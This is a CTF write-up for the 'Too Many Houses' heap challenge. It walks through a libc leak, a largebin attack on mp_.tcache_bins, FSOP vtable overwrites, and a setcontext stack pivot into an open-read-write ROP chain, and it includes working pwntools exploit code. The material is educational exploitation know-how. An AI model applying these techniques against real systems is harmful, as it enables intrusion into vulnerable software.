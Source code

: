 # Too Many Houses - Heap wizardry to stack pivot to arbitrary ROP chain execution

> All these talks of houses are starting to ruin the fun of the hunt, maybe you can do something about that
> 
> 0.cloud.chals.io:20887
> 
> Author: lms
> - [too_many_houses.tar.gz](https://github.com/tj-oconnor/cyber-open-2022/blob/main/pwn/house/files/too_many_houses.tar.gz)

Too Many Houses was a binary exploitation challenge in the US Cyber Open CTF in 2022, which is the first step toward qualification for the US Cyber Team. At the end of the CTF, it was worth 1000 points and had only 1 solve. I didn't solve this during the CTF, but attempted to solve during the subsequent US Cyber Combine, making use of the [writeup](https://github.com/tj-oconnor/cyber-open-2022/blob/main/pwn/house/Solution.pdf) posted after the competition. In my opinion, it was a pretty difficult challenge and I do not think I would have been able to solve it on my own. However, I think that I did learn some things from the challenge that I would like to document here.

Let's jump in!

## Overview
We're given a binary, with ld.so and libc.so.6 provided. The libc is stripped (which will be one of our biggest problems as it was compiled by the challenge author, so I'm not aware of any way to unstrip it) and from the strings, it seems that the libc is GLIBC 2.35. This is important, because there are several mitigations that were added coming up to this version:
1. Tcache pointers are encrypted, except for the head of each linked list. This means that we cannot do simple tcache poisoning without a heap leak.
2. The malloc debug hooks (`__malloc_hook`, `__free_hook`, and a few others) are no longer in use. This means that we must rely on another method, such as `__printf_arginfo_table` or the FILE struct to achieve code execution.

Examining the binary a bit more, we notice that there's a restrictive seccomp filter, only allowing us to perform a few syscalls. Most notably, we can use the `open`, `read`, and `write` syscalls, but not `execve` or `execveat`. 

Lastly, we notice the program features. This is a typical menu-based heap pwnable, with options to allocate a chunk ("Create"), edit a chunk's contents ("Edit"), print out a chunk's contents ("Print"), and free a chunk ("Delete"). We can only edit and print once.

## The Vulnerability
After reversing the program a bit, I noticed that in the function that lets you edit a chunk, we have a 2 byte overflow into the next chunk. This is because it tells the size of the chunk using `strlen()`, but the program does not put a null byte after initially reading input. Therefore, if we fill a chunk completely with non-zero bytes, we can overflow the size field of the next chunk, as the size will be considered part of the string when `strlen()` is called.

```C
void edit(void)

{
  uint idx;
  size_t __nbytes;
  
  if (edited_already != 0x737465616d706e6b) {
    FUN_00101219("You already took your shot\n");
                    /* WARNING: Subroutine does not return */
    _exit(0);
  }
  edited_already = 0;
  idx = read_index();
  print_prompt();
  __nbytes = strlen(mem[(ulong)idx * 2]);
  read(0,mem[(ulong)idx * 2],__nbytes);
  return;
}
```
However, since we can only edit a chunk once, we can only trigger the vulnerability once. That matches up with the text that is printed in the beginning of the program ("What if you only had one shot? One opportunity? Would you take it? Or would you let it slip?"), we only get one shot at triggering this vulnerability.

## Getting a leak
First of all, the program has all protections enabled except for RELRO and stack canaries. These will likely not be relevant because the binary has PIE (and we would need a program base leak to get the location of the GOT), and we do not have a stack overflow. 

ASLR is most likely enabled on the server, so the first thing we would need to do anything useful is a libc leak. This can be done with some clever heap feng shui, as I read in the writeup. 

After creating helper function wrappers for calling the four functions of the binary, I implemented this code for leaking the libc address (again, relying on the writeup).

```python
create(5, 0x1010, b"\x02"*0x400)
create(0, 0x980, b'\0'*0x28 + p64(0x1000)) # fake chunk size
create(3, 0x1030, b'\0'*0x70 + p64(0x590) + p64(0x1000)) # fake prev chunk, chunk size
create(9, 0x4000, b"Buffer") # prevent consolidation
delete(0) # chunk 0 gets put in the large? bin
create(1, 0x460, b'a') # this gets allocated out of chunk 0, but leaves the libc pointers
l = u64(leak(1) + b'\0\0')
libc.address = l - 0x1ee261
info("libc @ " + hex(libc.address))
```

The way this works is by creating multiple chunks, as well as a chunk as a buffer to prevent consolidation with the top chunk. Putting one chunk into either the unsorted or large bins by freeing it allows us to have the next allocation taken from the freed chunk. This lets us to leak the libc pointers that are not zeroed out on malloc().

## Largebin attack and FSOP
The next step outlined in the writeup is a largebin attack, targeting `mp_.tcache_bins` by overwriting it with a large value. This is done so that we can have more control over malloc() returns, as there are no checks performed when a chunk is returned from the tcachebins. In addition to this, a larger value of mp_.tcache_bins will lead to data outside of the `tcache_perthread_struct` to be used as heads of tcachebins (this is useful because the heads of tcache bins are left in their original forms, unencrypted).

We can now utilize the heap overflow to create overlapping chunks. This lets us to perform the actual largebin attack, writing the address of the largebin to our target, `mp_.tcache_bins`.

After the overwrite, we have an entry in the 0x2ff0 tcachebin pointing to the area we want to overwrite. Now we need to find something to write to. Because of the seccomp filter, we must be able to pivot to a ropchain that opens, reads, and writes the flag to stdout. In the writeup, the way that this is done is through FSOP. The vtable of the `_IO_file_plus` struct is edited so that we have control over the function pointers that are called when a FILE object is `fflush()`ed (which usually happens when the program exits).

When we allocate a chunk of the appropriate size in order to overwrite the vtable entries, and place our ropchain at an appropriate place within our input, and then use the `setcontext` gadget in libc in order to do this, because it loads all registers from the memory pointed to by `rdx`, which points to the beginning of our input.

Following what the author did in his writeup, we overwrite the `fflush` pointer in `_IO_str_jumps` with `puts`, which will call more functions so that `rdx` will eventually point to where we chose to put the beginning of our input (this will be useful later). We can also then overwrite `_IO_default_uflow` with the address of the `setcontext` gadget, which allows us to stack pivot to our ropchain (which is now at a known address as we know the libc base address, and we are overwriting data within libc).

 ```python
create(2, 0x478, b"d"*0x478) # fill the chunk completely
edit(2, b"l"*0x478 + b"\x91\x05") # overflow, making the next chunk bigger, to end inside chunk 3
create(4, 0x530, b"c"*0x500 + p64(0x510) + p64(0x1041)) # allocated out of remaining chunk 0, overlaps with chunk 3
delete(3) # this free chunk is overlapped, so we can overwrite poitners
delete(4) # move chunk 3 into largebin

tcache_bins = libc.address + 0x1ed360 + 72 # mp_.tcache_bins, allows us to treat any chunk as a tcache
                                           # this allows us to have more control over where we write
setcontext = libc.address + 0x50055 # used for stack pivot
io_helper_jumps = libc.address + 0x1ee980 # yea... stripped libc is hard

# largebin attack overwrites mp_.tcache_bins with a large value
# this chunk is at the right offset from tcache_perthread_struct to be considered the head of the 0x2ff0 tcache bin
create(6, 0x580, b"m"*312 + p64(io_helper_jumps) + b"a"*(0x500-320) + p64(0x510) + p64(0x1041) + p64(l+0x90)*3 + p64(tcache_bins))

delete(5)
create(7, 0x1060, b"c")

rop = ROP(libc) # open read write ropchain
rop.read(0, libc.bss(42), 100) # read filename
rop(rax=2, rdi=libc.bss(42), rsi=0, rdx=0) # can't use the open() function, because that uses the openat syscall
rop.raw(rop.find_gadget(["syscall", "ret"])[0])
rop.read(3, libc.bss(42), 100)
rop.write(1, libc.bss(42), 100)

print(rop.dump())
r = b"a"*160 + p64(io_helper_jumps+160) + rop.chain() # ropchain with the right padding because setcontext pops rsp

# this gets allocated out of tcache, at io_helper_jumps
# we overwrite _IO_str_jumps's fflush pointer with puts, and when puts is called, it calls _IO_default_uflow, which calls the setcontext gadget with RDX pointed to our input.
# this triggers the ropchain and prints the flag
create(8, 0x2fe0, r + b"a"*(0xc18-len(r)) + p64(setcontext) + b"a"*(3416-0xd40) + p64(libc.address + 0x81e00) + b"b"*296 + p64(libc.sym.puts))
```

With this, `rsp` gets popped from our input, and now our ropchain will be executed on the next call to `exit()`, when the stdio buffers are flushed and our overwritten function pointers are called.

## Triggering the ropchain
But hold on... The program doesn't use the normal `exit()` function! It uses the `_exit()` function, which does not `fflush()` the buffers, but instead immediately exits. This is a problem, as our whole FSOP payload would never be executed. 

However, we notice that in the beginning of the program, `alarm()` is called with a time of 32 seconds, and a handler is set that will call the normal `exit()`. This will trigger our FSOP payload, we just need to wait 32 seconds.

## Wrapping it up
After running this on the remote server, we get the flag back: `uscg{Even_1_Byte_Is_Still_Too_Much}`

Thanks to lms for a great challenge, even though my understanding is still pretty limited. This was a very cool and difficult challenge.
